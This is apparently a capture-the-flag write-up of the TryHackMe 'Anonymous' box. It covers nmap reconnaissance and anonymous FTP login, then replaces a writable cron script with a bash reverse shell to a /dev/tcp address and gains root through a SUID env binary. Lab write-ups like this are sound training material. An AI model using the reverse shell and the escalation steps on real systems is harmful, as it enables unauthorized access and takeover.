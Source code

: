 ```yaml
---
title: Anonymous
author: Teja
date: 03-08-2021
categories: [Writeups, Pentesting, Samba, FTP]
tags: [tryhackmeBox]
---
```


Easy Tryhackme Box

## Recon

I did an nmap scan on the box that revealed 4 open ports.

But the ftp port had anonymous login enabled which was very easy to exploit.
And the rest were ok.

```bash
# Nmap 7.91 scan initiated Mon Aug  2 20:30:10 2021 as: nmap -sC -sV -Pn -oN initial.nmap 10.10.170.122
Nmap scan report for 10.10.170.122
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.13.156
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2021-08-02T15:00:46+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-02T15:00:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  2 20:30:50 2021 -- 1 IP address (1 host up) scanned in 39.91 seconds
```

## Enumeration

I tried enumerating for shares on the ports 139, 445 for smb shares.

```bash 
smbclient -L //HOST-IP/ -N
```

This gives me shares with the names of `pics`. 

Logging into them as user and downloading those pictures thinking it might have some steg involved ended up as a rabbit hole.

But FTP service on this machine allows anonymous user login. So I logged into the ftp on port 21 with creds : `anonymous:anonymous`.
It really doesn't matter what the password is as long as username is `anonymous`.

## Exploit

There are 3 files in the ftp server. one of them is just a to_do.txt and irrelevant.

There is a `clean.sh` and a `removed_files.log` file.

Looking at the `clean.sh` file, it seems it checks if any files are present in the tmp folder and logs them into `removed_files.log` file.

So this must be a cronjob that executes itself after a certain time interval.

So I changed the script to a bash reverse shell using `!nano` command and started a listener on my local machine.

clean.sh: \
```bash
#!/bin/bash
bash -i >& /dev/tcp/<VPN-IP>/9999 0>&1
```

And so after some time, we get a shell as the user `namelessone`.

## Priv Esc

I used the `find` command to find any setuids that I can use for priv esc.

```bash
find / -perm -u=s -type f -user root 2>/dev/null
```

I found the setuid `/usr/bin/env` that has it's setuid bit set.

Using the command from gtfobins for [env](https://gtfobins.github.io/gtfobins/env/).

We can get direct root access. Now we can go ahead and read both user and root flags.